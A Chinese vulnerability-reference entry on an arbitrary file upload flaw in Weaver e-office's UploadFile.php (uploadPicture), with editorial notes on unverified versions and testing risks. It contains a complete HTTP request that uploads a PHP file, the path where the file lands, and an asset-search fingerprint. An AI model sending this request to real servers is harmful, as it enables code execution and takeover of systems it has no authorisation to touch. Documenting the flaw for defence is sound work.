



# 泛微e-office UploadFile.php uploadPicture任意文件上传

## 条目说明

- 对象与具体问题：泛微e-office；UploadFile.php uploadPicture任意文件上传
- 版本、配置及部署条件：本篇V8，另一CNVD篇v9.0，必须保留版本分歧并核验
- 认证与权限前提：请求含PHPSESSID，实际必要性未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与CNVD2021-49104旧篇同接口但本篇multipart完整且补充/images/logo/logo-eoffice.php落点
- 不同版本主张不可不加验证统一成单一V8；正文无官方编号链接
- HTTP代码块SS误标，需说明固定logo路径覆盖副作用

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

### 漏洞影响

```
泛微OA V8
```

### 网络测绘

```
app="泛微-EOffice"
```

### 漏洞复现

登录页面



发送请求包

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0******************************8
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 193；静态长度已移除，应由客户端根据最终请求体的字节数生成。



再访问

```
/images/logo/logo-eoffice.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
